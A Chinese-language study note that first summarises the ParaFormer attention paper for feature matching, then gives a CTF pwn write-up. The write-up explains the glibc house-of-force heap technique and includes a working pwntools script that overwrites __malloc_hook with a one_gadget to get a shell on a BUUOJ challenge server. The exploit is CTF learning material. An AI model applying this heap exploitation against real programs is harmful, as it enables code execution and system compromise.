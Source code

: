 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images\三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为$p^X \in R^{M\times3}$,$p^Y \in R^{N\times3}$,  设置描述符分别为$d^X \in R^{M\times C}$,$d^Y \in R^{N\times C}$。波形的生成公式如下
$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\,\;= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$
在Wave-PE中将位置$p$和描述符$d$分别映射为为幅度$A$和相位$\theta$通过MLP将其转换为位置编码$x,[.,.] $表示链接。
$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$
接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为$Q、K、V$。然后并行计算自注意力和交叉注意力，自注意力的输入是$(Q_x,V_x, K_x)$和$(Q_y,V_y, K_y)$对于自注意力来说采用标准的注意力公式。
$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$
对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用$(Q_xK_y^T)^T$来代替

$Q_yK_x^T$，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images\U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images\自注意力.png)

假设l层中的特征为$x^l ∈ R^{N×D}$，注意力权重为$A^l ∈ R^{N×N}$。提出的注意力池化定义为：
$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层$l+1$的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分$s∈R^N$,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$提取s中索引为$idx$的值然后利用$sigmoid$运算来生成gating信号，$\odot$表示逐元素矩阵乘法。

反池化上采样操作则为
$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$
$x^l∈R^{k\times C^l}$是当前的特征矩阵，$0_{N \times C^{l+1}}$是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。$idx ∈ R^k$是在对应池化层中选择的点的索引。然后根据$idx$将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images\1.png)

初始界面有两种功能

![2](images\2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

